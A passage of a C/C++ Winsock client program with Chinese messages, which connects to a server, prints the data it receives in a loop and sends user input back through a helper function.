        printf("连接失败，请检查远程服务器是否已经打开");
        closesocket(sk);
        sk = NULL;
        return -1;
    }
    char szBuf[] = { "hello" };

    //send(sk, szBuf, sizeof(szBuf), 0);
    char szRecvBuff[512] = { 0 };
    int nFlag = 1;
    while (true)
    {
        int nRet = recv(sk, szRecvBuff, sizeof(szRecvBuff), 0);
        if (!nRet)
        {
            return -1;
        }
        printf("服务器数据：%s\r\n", szRecvBuff);

        nFlag = SelectInput(sk);
        if (!nFlag)
        {
            return 0;
        }

    }

    closesocket(sk);
    return 0;
}
```

